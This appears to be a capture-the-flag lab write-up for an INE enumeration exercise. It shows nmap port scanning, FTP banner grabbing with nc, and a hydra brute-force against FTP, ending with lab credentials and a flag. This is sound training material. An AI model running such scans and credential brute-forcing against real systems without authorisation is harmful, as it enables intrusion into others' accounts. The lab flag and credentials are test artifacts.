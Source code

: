 # FTP Login Brute Force & Banner Grabbing

## Challenge Title
Discover Hidden FTP Service, Extract Users from Banner, Brute Force Credentials, and Retrieve the Flag.

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Identify hidden services using Nmap, enumerate users from FTP banner, brute force FTP credentials, and extract flag3 from the user directory.

---

## Tools Used

- `nmap` – for service enumeration
- `nc` – for FTP banner grabbing
- `hydra` – for brute-force attacks
- `ftp` – to retrieve flag manually

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Nmap Scan

Initial scan shows SMB and SSH.

```bash
nmap -sV target.ine.local
```
![Step 1](./1.png)

To discover all services, use full port scan:

```bash
nmap -p- -sV target.ine.local
```
We find an FTP service on port `5554`.
![Step 1](./2.png)

### 🔹 Step 2: Grab FTP Banner

```bash
nc target.ine.local 5554
```
The banner reveals three potential usernames: ashley, alice, amanda.

### 🔹 Step 3: Create User Wordlist

```bash
nano users.txt
```
```text
alice
ashley
amanda
```

### 🔹 Step 4: Brute Force FTP Credentials
Using Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Success! Found valid credentials:
- Username: alice
- Password: pretty

### 🔹 Step 5: Access FTP and Download Flag
```bash
ftp target.ine.local 5554
```
Login with `alice:pretty`
Use `ls` to list and `get flag3.txt` to download.

### 🔹 Step 6: View Retrieved Flag
```bash
cat flag3.txt
```
Output:
```bash
FLAG3{232c4bdafc8844129123cfaeaa5c4e68}
```

## Conclusion
Through enumeration, service discovery, and brute-forcing techniques, we were able to extract sensitive credentials and retrieve the flag from a hidden FTP service.

## Files Included
- `users.txt` – Created for brute-forcing
- `1.png` → `8.png` – Screenshots documenting each step
